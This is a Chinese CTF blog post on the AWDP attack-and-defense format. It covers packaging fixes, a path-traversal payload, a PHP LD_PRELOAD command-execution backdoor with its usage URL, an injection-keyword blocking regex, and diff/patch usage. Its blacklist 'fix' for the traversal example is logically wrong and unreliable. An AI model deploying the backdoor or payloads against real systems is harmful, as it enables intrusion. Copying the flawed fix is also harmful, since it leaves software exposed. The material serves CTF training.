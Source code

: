```yaml
---
title: awdp测试
categories:
  - awdp
  
abbrlink: 2701
date: 2024.06.17
tags: 
   - php 
   - web
swiper_index: 1

---
```






# 介绍

首先了解一下什么是 AWDP ，AWDP模式（Attack,Defense,WebandPwn），分为 Break 与 Fix 环节。根据英文全称也可以看出来，只有 Web 和 Pwn 这两个方向的题目。

每个战队拥有相同的起始分数及相同配置的虚拟靶机，参赛队员需对平台中的GameBox发起攻击，向平台提交正确的flag（证明自己具备对该题的攻击能力）；在此期间，由平台以轮次制的方式向参赛战队的靶机发起攻击，检查其他选手的漏洞是否修补成功，若修补成功则认为参赛战队具备该漏洞的防御能力。

简单来说，AWDP 和传统 CTF 并无任何区别，仅仅是多了一个 Fix 功能，也就是你提交 flag 后拿到的是攻击分，而 Fix 成功后才会拿到防御分

首先，主办方会给你一个ftp让你连到服务器上，你可以传一个update.tar.gz，里面应当包含一个文件，还有一个update.sh，然后这个update.sh里面就是你要执行的命令，这里的修复主要讲的就是你用修改了的文件替换原有题目的文件，然后update.sh的内容比如就是：

```
#!/bin/bash

cp index.php /var/www/html/index.php
```

路径啥的主办方是会给你的，打包命令就是：

```
tar zcvf update.tar.gz update.sh file1 file2
```



# 例题

1.

```php
<?php
        $action = (isset($_GET['action']) ? $_GET['action'] : 'home.php');
        if (file_exists($action)) {
            include $action;
        } else {
            echo "File not found!";
        }
		
            ?>

```

payload: `?action=../../../../flag`

fix:黑名单防御

```php
<?php
        $action = (isset($_GET['action']) ? $_GET['action'] : 'home.php');
		$deny_ext = array("..","../");
		if (in_array($action, $deny_ext)){
            if (file_exists($action)) {
                include $action;
            } else {
                echo "File not found!";
            }
		}
		
            ?>

```

这里通过新建一个黑名单，过滤..和../的方法防御成功

2.

```
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";

    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    mail("", "", "", "");

    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?>
```

扫出一个后门，发现应该是个劫持LD_PRELOAD，然后根据格式

```
http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so
```

2.防御正则：

```
function waf($s){
  if (preg_match("/select|flag|union|\\\\$|\'|\"|--|#|\\0|into|alert|img|prompt|set|/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark|regexp|from|count|procedure|and|ascii|substr|substring|left|right|union|if|case|pow|exp|order|sleep|benchmark|into|load|outfile|dumpfile|load_file|join|show|select|update|set|concat|delete|alter|insert|create|union|or|drop|not|for|join|is|between|group_concat|like|where|user|ascii|greatest|mid|substr|left|right|char|hex|ord|case|limit|conv|table|mysql_history|flag|count|rpad|\&|\*|\.|/is",$s)||strlen($s)>50){
    header("Location: /");
    die();
  }
}
```

3

.一般java题漏洞都出现在依赖里，查看pom.xml,发现里面的fastjson是1.2.55的，总所周知，这个版本肯定是存在漏洞的，把依赖的版本修改为新版本1.2.83，然后再maven打包，就防御成功了。

4.linux 运行checksec命令

5.补丁工具patch：

为单个文件生成补丁

```
diff -up origin.c modify.c
```

先进性对比

- -u 显示有差异行的前后几行(上下文), 默认是前后各3行, 这样, patch中带有更多的信息.
- -p 显示代码所在的c函数的信息.

回显：

```
--- ssh 2024-06-05 02:06:37.188949705 -0400
+++ "ssh (\345\244\215\345\210\266 1)"  2024-06-19 05:36:34.479623854 -0400
@@ -18,3 +18,4 @@ 重启SSH服务
 
 sudo service sshd restart
 sudo systemctl restart sshd.service
+1111

```

```
diff -uprN origin/ modify/
```

这条命令对比了origin/和modify/两个目录下的所有源码差异.

参数详解:

- -r 递归地对比一个目录和它的所有子目录(即整个目录树).
- -N 如果某个文件缺少了, 就当作是空文件来对比. 如果不使用本选项, 当diff发现旧代码或者新代码缺少文件时, 只简单的提示缺少文件. 如果使用本选项, 会将新添加的文件全新打印出来作为新增的部分.

打补丁：

生成的补丁中, 路径信息包含了你的源码根目录的名称, 但其他人的源码根目录可能是其它名字, 所以, 打补丁时, 要进入你的源码根目录, 并且告诉patch工具, 请忽略补丁中的路径的第一级目录(参数-p1).

```
patch -p1 < patch1.diff
```

给修改过的内核生成patch，然后用生成的patch给未修改过的内核打补丁

其中，目录linux-2.6.31.3为未修改过的内核，目录linux-2.6.31.3_1为修改过的内核

```
$ diff -uparN linux-2.6.31.3 linux-2.6.31.3_1/ > mypatch
$ cd linux-2.6.31.3
$ patch -p1 < mypatch
```







![](https://pub-31f8a5138dca42ceabf3a35f657e575a.r2.dev/20250103222939748.jpg)
